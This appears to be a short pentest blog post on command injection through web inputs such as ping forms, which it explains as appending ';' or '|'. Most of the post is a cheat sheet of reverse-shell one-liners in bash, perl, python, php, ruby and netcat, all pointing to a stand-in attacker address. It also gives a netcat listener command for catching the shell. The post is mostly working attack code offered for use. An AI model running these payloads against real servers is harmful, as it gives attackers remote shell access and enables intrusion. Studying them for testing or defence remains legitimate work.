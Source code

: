 +++
categories = ["Pentest", "Web"]
date = "2021-01-20"
title = "Vulnerability Code Injection"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++

Sometimes webs let us use the internal terminal of their server to maybe perform a specific task, like sending a ping. In that case we can try to add a `;` or `|` after the valid argument so we can execute our own commands. In this case we can try to connect to the server shell.

The next examples are so the attacker ip is 8.8.8.8 and we are using the port 8080. So is all this cases we would have to set a terminal listening to the port 8080 by `nc -vv -l -p 8080`

* Bash 
```
bash -i >& /dev/tcp/8.8.8.8/8080 0>&1
```

*  Perl
  
```
perl -e 'use Socket;$i="8.8.8.8";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

* Python
  
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("8.8.8.8",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

*  PHP
  
```
php -r '$sock=fsockopen("8.8.8.8",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

* Ruby

```
ruby -rsocket -e'f=TCPSocket.open("8.8.8.8",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

* Netcat

```
nc -e /bin/sh 8.8.8.8 8080
```